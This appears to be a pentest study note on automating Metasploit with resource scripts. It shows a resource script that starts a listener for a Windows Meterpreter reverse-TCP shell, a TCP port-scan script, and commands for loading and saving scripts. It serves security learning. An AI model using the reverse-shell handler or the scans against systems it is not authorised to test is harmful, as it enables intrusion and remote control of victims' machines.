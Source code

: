 ```yaml
---
up: "[[Client-Side Attacks]]"
---
```


# Automating Metasploit with Resources Scripts

- Metasploit resource scripts are a great feature of MSF that allows to automate repetitive tasks and commands
- They operate similarly to batch scripts

## Demonstration

- List of resource scripts:

```bash
ls -al /usr/share/metasploit-framework/scripts/resource
```

- Automation of multi/handler setup:

```bash
# handler.rc
use mutli/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <my_ip>
set LPORT <port>
run
```

```bash
msfconsole -r handler.rc
```

- Automation of a portscan:

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS <ip>
run
```

- Load a resource script

```bash
> resource ~/handler.rc
```

- Create resource script from msfconsole
- Last commands are automatically written inside

```bash
makerc ~/resouce.rc
```
